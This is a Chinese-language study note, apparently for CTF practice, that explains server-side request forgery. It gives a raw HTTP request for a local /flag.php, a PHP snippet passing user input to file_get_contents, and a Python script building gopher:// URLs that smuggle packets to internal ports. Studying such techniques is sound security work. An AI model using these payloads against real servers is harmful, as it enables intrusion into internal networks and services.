 服务端请求伪造（Server Side Request Forgery, SSRF）指的是攻击者在未能取得服务器所有权限时，利用服务器漏洞**以服务器的身份发送一条构造好的请求**给服务器所在内网。SSRF 攻击通常针对外部网络无法直接访问的内部系统。

例如：我们的服务器向我们的用户开放了我们的 80 端口，但是没有开放我们的 3306 端口，（3306 端口涉及到我们的数据库服务器）。这个时候，如果我们能够控制我们的**80 端口的**webshell，那么我们就可以通过我们的**80 端口与 3306 端口**之间的对话，来获取我们需要的信息。

甚至可以去请求我们的**内部网站**。

## SSRF 到底是什么
我们的 SSRF，其实就是**利用我们控制的一个可以向内部发送网络请求的函数，或者主机**，然后利用这一个主机来发送我们想要的内容，而我们的这一个内容，**通常来说需要符合我们的 http 协议**。因此，我们可以考虑现在我们的 burpsuit 上

例如：发送一个本地端口的数据，要求访问我们本地的/flag 文件：
```
"GET /flag.php HTTP/1.1\r\n"
"HOST:127.0.0.1\r\n"
"Connection: Keep-Alive\r\n\r\n"
```

这个时候，我们的构造思路是：利用我们的 burpsuit 来生成对应的请求作为我们的直接数据。**注意，我们要把最后一个元素重复一次\r\n**
```
GET /flag.php HTTP/1.1
Host: 127.0.0.1
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close


```


## 利用条件：
1. 存在我们的 `file_get_contents` 函数，我们这一个函数不仅可以读取一个文件，还可以**读取 http 请求**
```
$url=$_GET['url']
echo file_get_contents($url)
```



## 攻击内网服务：
Gopher 协议：
Gopher 是一个互联网上的非常有名的信息查找系统，他将 internet 上的文件组织成某种索引。在 www出现之前 ，Gopher 就相当于我们的 www协议 。

利用这一个歇息可以实现做到向我们的某一个地址发送对印度个数据，格式如下：
```
gopher://地址:端口/_数据包
```

这个时候，我们就可以做到，想法什么包就发什么包。


### 数据包构造
第一步：写好原始数据（TCP 报文）
第二步：把换行符 `'\n'` 换成 `'\r\n'`
第三步：将原始数据包进行 url 编码，然后放在 `gopher://地址:port/_` 的后面。

```
from urllib.parse import quote as urlencode

  

def makegopher():

    raw="""GET/ HTTP/1.1

HOST:127.0.0.1:1234

User_Agent:curl/7.77.0

Accept:*/*

    """.replace('\n','\r\n')

    stream=urlencode(raw)

    return "gopher://127.0.0.1:1234/_"+stream

print(makegopher())

```
